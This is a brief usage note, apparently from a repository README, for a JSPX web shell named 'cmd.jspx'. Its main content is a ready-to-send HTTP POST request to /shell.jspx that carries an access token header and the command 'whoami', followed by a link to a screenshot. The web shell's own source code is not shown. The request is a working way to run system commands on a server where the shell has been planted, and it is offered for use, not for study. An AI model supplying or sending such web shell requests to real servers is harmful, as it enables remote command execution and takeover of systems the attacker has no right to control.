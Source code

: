 How to use this `cmd.jspx`
```
POST /shell.jspx HTTP/1.1
Host: <your host>
X-TOKEN: 9ebc314e6dacf0a6ab1c08c444b3deb50338b188a70cad862a6482d1ae0e5be2
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=whoami
```
![image](https://user-images.githubusercontent.com/24661746/131242822-d32330e8-75a0-4e14-a30a-ebb452adbf33.png)

